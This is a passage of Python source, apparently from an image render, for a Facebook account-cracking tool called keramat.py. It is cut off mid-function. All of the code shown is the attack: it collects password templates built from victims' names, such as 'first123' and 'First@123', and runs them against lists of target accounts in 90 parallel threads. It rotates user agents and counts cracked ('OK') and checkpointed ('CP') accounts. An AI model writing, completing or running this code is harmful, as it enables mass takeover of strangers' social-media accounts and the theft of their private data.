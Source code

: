 				linex()
				for i in range(ps_limit):
					print('\x1b[1;92m Example:\x1b[97;1m first last, firstlast,first123,First@123')
					plist.append(input(f'\x1b[97;1m Put password {i+1}: '))
				linex()
				print('\x1b[97;1m[1] Enter For Cloning')
				linex()
				cx=input('\x1b[97;1m Choose: ')
				if cx in ['y','Y','yes','Yes','1']:
					pcp.append('y')
				else:
					pcp.append('n')
				with tred(max_workers=90) as crack_submit:
					os.system('clear')
					print(logo)
					total_ids = str(len(fo))
					
					linex()
					for user in fo:
						ids,names = user.split('|')
						passlist = plist
						if mthd in ['1','01']:
							crack_submit.submit(ffb,ids,names,passlist)
						elif mthd in ['2','02']:
							crack_submit.submit(mmm,ids,names,passlist)
						else:
							crack_submit.submit(api,ids,names,passlist)
				print('\033[1;37m')
				linex()
				print(' The process has completed')
				print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
				linex()
				input(' Press enter to back ')
				os.system('python keramat.py')
			elif xd in ['2','02']:
				menu()
			elif xd in ['3','03']:
				bd()
			elif xd in ['4','04']:
				os.system(f'xdg-open https://facebook.com/groups/828047231455910/');menu()
			elif xd in ['0','00']:
				exit()
			else:
				exit(' Option not found in menu...')
		
def mmm(ids,names,passlist):
	global loop,oks,cps
	sys.stdout.write('\r\r\033[1;37m[keramat] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(cps)));sys.stdout.flush()
	session = requests.Session()
	try:
		first = names.split(' ')[0]
		try:
			last = names.split(' ')[1]
		except:
			last = 'Khan'
		ps = first.lower()
		ps2 = last.lower()
		for fikr in passlist:
			pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
			ua=random.choice(ugen)
			